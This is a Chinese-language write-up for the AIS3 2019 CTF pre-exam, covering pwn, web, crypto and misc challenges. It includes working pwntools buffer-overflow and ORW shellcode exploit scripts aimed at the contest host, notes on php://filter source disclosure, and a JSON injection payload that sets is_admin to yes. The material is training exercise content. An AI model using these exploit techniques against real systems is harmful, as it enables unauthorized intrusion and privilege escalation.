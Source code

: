 ```yaml
---
title: ais3_2019_pre_exam_writeup
date: 2019-07-13 09:32:14
tags:
- ais3
- ctf
- writeup
---
```


# Pwn


## Welcome BOF

* 用objdump 或 ida 知道 [rbp-30h] ，必須壓過48 + 8 個byte，才能到return_address，但奇怪的是蓋48才過??

* 然後要跳的這`0000000000400687 <welcome_to_ais3_2019>`

* 利用pwntools

```py
from pwn import *
context(arch = 'i386', os = 'linux')

host = 'pre-exam-pwn.ais3.org'
port = 10001

r = remote(host, port)

p = 0x0000000000400687
payload = p64(p)


r.recvline()
r.sendline('A'*48 + payload)

r.interactive()

```

## ORW


* x86-64的結構
* 裡用shellcraft產的shell-code，注入輸入點
* 一樣查看buffer-overflow的點，跳到.data的address`0x00000000006010A0`，利用ida查看

```py
from pwn import *
context(arch = 'amd64', os = 'linux')


host = 'pre-exam-pwn.ais3.org'
port = 10001

r = remote(host, port)

# debug
'''
context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
if args.G:
    gdb.attach(p)
'''


shellcode = ''
shellcode += shellcraft.pushstr('/home/orw/flag')
shellcode += shellcraft.open('rsp', 0, 0)
shellcode += shellcraft.read('rax', 'rsp', 100)
shellcode += shellcraft.write(1, 'rsp', 100)

'''
log.info(shellcode)
'''

log.info(shellcode)
r.recvline()

r.sendline(asm(shellcode))
r.recvline()
p = 0x00000000006010A0
r.sendline('A'*40 + p64(p))
r.interactive()

```

# reverse

## Trivial

* 用ida組出flag


# web

## SimpleWindow

* 須利用離線版查看，可利用chorme工具改成offline顯示

## Hidden

* 在console中跑jscode，運行r()的function

## d1v1n6

* phpfilter，把index.php打包起來
* decode之後發現不能用127.0.0.1，0.0.0.0
* filter 包起 http://localhost
* decode出來就是結果


# Crypto

## TCash
* 將上面的ascii字元用md5 & sha256照做一次，會有一張表
* 將兩個的結果做比對，取交集就是flag

```py
from hashlib import md5,sha256
cand = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPWRSTUVWXYZ1234567890@,- _{}'

md5dic = {}
sha256dic = {}
'''
f = open('news.txt','w')
f2 = open('news2.txt','w')
'''
md5s = [41, 63, 46, 51, 6, 26, 42, 50, 44, 33, 29, 50, 27, 28, 30, 17, 31, 19, 46, 50, 33, 45, 26, 26, 29, 31, 52, 33, 1, 45, 31, 22, 50, 50, 50, 50, 50, 31, 22, 50, 44, 26, 44, 49, 50, 49, 26, 45, 31, 30, 22, 44, 30, 31, 17, 50, 50, 50, 31, 43, 52, 50, 53, 31, 30, 17, 26, 31, 46, 41, 44, 26, 31, 52, 50, 30, 31, 26, 39, 31, 46, 33, 27, 1, 42, 50, 31, 30, 12, 26, 27, 52, 31, 30, 12, 31, 46, 26, 27, 14, 50, 31, 22, 52, 33, 31, 41, 50, 46, 31, 22, 23, 41, 31, 53, 26, 21, 31, 33, 30, 31, 19, 39, 51, 33, 30, 39, 51, 12, 58, 60, 31, 41, 33, 53, 31, 3, 17, 50, 31, 51, 26, 29, 52, 31, 33, 22, 26, 31, 41, 51, 54, 41, 29, 52, 31, 19, 23, 33, 30, 44, 26, 27, 38, 8, 50, 29, 15]
sha256s = [61, 44, 3, 14, 22, 41, 43, 30, 49, 59, 58, 30, 11, 3, 24, 35, 40, 46, 3, 42, 59, 36, 41, 41, 41, 40, 9, 59, 23, 36, 40, 33, 42, 42, 42, 42, 42, 40, 44, 42, 49, 24, 49, 28, 42, 33, 24, 36, 40, 24, 33, 10, 24, 40, 35, 42, 42, 42, 40, 39, 9, 42, 3, 40, 24, 35, 24, 40, 3, 61, 49, 24, 40, 9, 42, 24, 40, 41, 17, 40, 12, 57, 11, 23, 43, 42, 40, 24, 18, 41, 11, 9, 40, 24, 18, 40, 3, 41, 11, 12, 42, 40, 44, 9, 59, 40, 61, 42, 3, 40, 44, 13, 61, 40, 3, 24, 29, 40, 59, 24, 40, 19, 18, 6, 59, 24, 18, 6, 22, 0, 39, 40, 61, 57, 3, 40, 17, 35, 42, 40, 58, 24, 58, 9, 40, 59, 44, 24, 40, 61, 48, 52, 61, 58, 9, 40, 19, 13, 59, 24, 53, 41, 11, 55, 55, 42, 58, 18]


for i in cand:
	md5dic.setdefault(int(md5(i.encode()).hexdigest(),16) % 64, []).append(i)
	sha256dic.setdefault(int(sha256(i.encode()).hexdigest(),16) % 64, []).append(i)

for i, j in zip(md5s, sha256s):
	for ii in md5dic[i]:
		if ii in sha256dic[j]:
			print(str(ii), end='')	# print(md5dic[i], sha256dic[j], end='\n\n')
```


# Misc

## Welcome

* 簽到題

## KcufsJ

* 將code reverse 然後 run

## Are you admin?

* command injection
	* 讓name 對到 fucker
	* is_admin 對到 yes
	* 接下來讓隨便的東西對到dictionary，才能將is_admin做忽略
	* 最後再補上一個對照，因為最後有個引號

`{\"name\":\"#{name}\",\"is_admin\":\"no\", \"age\":\"#{age}\"}`

* `fucker","is_admin":"yes","2":{"a":"b`
* `18"},"1":"2`